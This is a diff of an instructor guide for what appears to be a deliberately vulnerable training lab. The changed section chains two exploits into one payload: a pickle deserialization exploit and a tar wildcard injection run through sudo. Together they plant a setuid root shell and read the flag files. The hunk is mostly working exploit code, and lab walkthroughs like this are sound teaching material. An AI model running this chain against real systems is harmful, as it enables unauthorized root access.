

Before and after one commit to ihatecodingaaa/ai_commerce_sit, a Markdown page: docs/instructor-guide.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/docs/instructor-guide.md
+++ b/docs/instructor-guide.md
@@ -158,29 +158,33 @@ docker compose exec app cat /opt/shop/flags/stage1
 docker compose exec app bash   # (simulates the shell a real payload would give)
 id                              # ordinary appuser, no interesting group
 sudo -l                         # shows exactly one rule -- the only lead
+cat /opt/shop/scripts/ticket_export.py   # world-readable: pickle.load() on argv[1]
+cat /opt/shop/scripts/backup.sh          # also world-readable: tar wildcard bug
 
-# Stage 11: hop 1, appuser -> opsuser (insecure deserialization, CWE-502)
-cat /opt/shop/scripts/ticket_export.py   # world-readable: pickle.load() on argv[1]
+# Stage 11 + 12: hop 1 (appuser -> opsuser, CWE-502 deserialization) chained
+# directly into hop 2 (opsuser -> root, tar wildcard/argument injection,
+# GTFOBins) in a single payload. This has to be one shot: sudo checks the
+# REAL uid, and a setuid shell planted for later reuse only ever carries
+# an *effective* opsuser identity forward -- not enough to pass hop 2's own
+# sudo check (see vulnerable/privilege_escalation/README.md for why).
 python3 -c "
 import pickle, os
+CHAIN_CMD = (
+    'cd /opt/shop/backups/staging && '
+    \"echo 'cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash' > payload.sh && \"
+    \"touch -- '--checkpoint=1' && \"
+    \"touch -- '--checkpoint-action=exec=sh payload.sh' && \"
+    'sudo /opt/shop/scripts/backup.sh && '
+    'cp /opt/shop/flags/stage2 /tmp/stage2_proof.txt && chmod 644 /tmp/stage2_proof.txt'
+)
 class Exploit:
     def __reduce__(self):
-        return (os.system, ('cp /bin/bash /tmp/opsbash && chmod u+s /tmp/opsbash',))
+        return (os.system, (CHAIN_CMD,))
 with open('/tmp/payload.pkl', 'wb') as f:
     pickle.dump(Exploit(), f)
 "
 sudo -u opsuser /opt/shop/scripts/ticket_export.py /tmp/payload.pkl
-/tmp/opsbash -p -c 'cat /opt/shop/flags/stage2'   # proves the hop
-
-# Stage 12: hop 2, opsuser -> root (tar wildcard/argument injection, GTFOBins)
-/tmp/opsbash -p
-sudo -l                              # now shows the scoped backup.sh rule
-ls -la /opt/shop/scripts/backup.sh   # root:root, 755 -- NOT writable (old bug is fixed)
-cd /opt/shop/backups/staging
-echo 'cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash' > payload.sh
-touch -- '--checkpoint=1'
-touch -- '--checkpoint-action=exec=sh payload.sh'
-sudo /opt/shop/scripts/backup.sh
+cat /tmp/stage2_proof.txt            # proves the hop 1 -> hop 2 transition
 /tmp/rootbash -p -c 'cat /root/final_flag'
 
 # Stage 13: root
```
Also changed, not shown: docs/attack-timeline.md (+16 -7 lines), vulnerable/privilege_escalation/README.md (+53 -25 lines).
